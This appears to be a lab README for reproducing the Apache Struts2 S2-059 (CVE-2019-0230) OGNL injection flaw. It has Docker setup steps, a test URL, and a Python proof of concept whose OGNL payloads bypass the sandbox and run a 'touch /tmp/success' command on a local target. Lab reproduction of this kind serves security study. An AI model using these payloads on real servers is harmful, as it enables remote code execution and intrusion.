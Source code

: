 # Struts2 S2-059 Remote Code Execution Vulnerablity(CVE-2019-0230)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache Struts frameworks, when forced, performs double evaluation of attributes' values assigned to certain tags attributes such as id so it is possible to pass in a value that will be evaluated again when a tag's attributes will be rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

Affected Version: Struts 2.0.0 - Struts 2.5.20

References:

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## Setup

Start the Struts 2.5.16 environment:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/?id=1` and you will see the Struts2 test page.

## Exploit

visit `http://your-ip:8080/?id=%25%7B233*233%7D`, it can be seen that the result of 233*233 has been returned in the id attribute.

![1.png](1.png)

[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776) gives the details of OGNL sandbox bypass in Struts 2.5.16.

A simple Python POC for Verifying the vulnerability:

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

Execute the poc and the `touch /tmp/success` command has been executed:

![2.png](2.png)
